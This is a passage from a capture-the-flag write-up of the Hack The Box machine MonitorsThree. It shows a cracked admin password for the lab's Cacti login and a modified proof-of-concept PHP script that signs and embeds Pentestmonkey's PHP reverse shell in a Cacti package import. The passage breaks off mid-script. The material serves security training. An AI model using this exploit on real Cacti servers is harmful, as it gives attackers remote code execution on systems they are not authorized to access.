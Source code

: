 The hash was successfully cracked using CrackStation:
![](/assets/blogimages/Writeups/Hackthebox/MonitorsThree/MonitorsThree6.png)
`admin:greencacti2001`

Using these credentials on `cacti.monitorsthree.htb` successfully logs us in.
![](/assets/blogimages/Writeups/Hackthebox/MonitorsThree/MonitorsThree7.png)


Again let's go back to this [source](https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88)

I slightly modified the PoC code to add [Pentest monkey's](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) reverse shell in revshell.php file:
```
<?php

$shell_file_path = "./php-reverse-shell.php";
$filedata = file_get_contents($shell_file_path);

if ($filedata === false) {
    die("Failed to read the contents of shell.php. Ensure the file exists and is readable.");
}

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/test.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";

$keypair = openssl_pkey_new(); 
$public_key = openssl_pkey_get_details($keypair)["key"]; 

openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);

$data = sprintf(
    $xmldata,
    base64_encode($filedata),
    base64_encode($filesignature),
    base64_encode($public_key)
);

openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);

```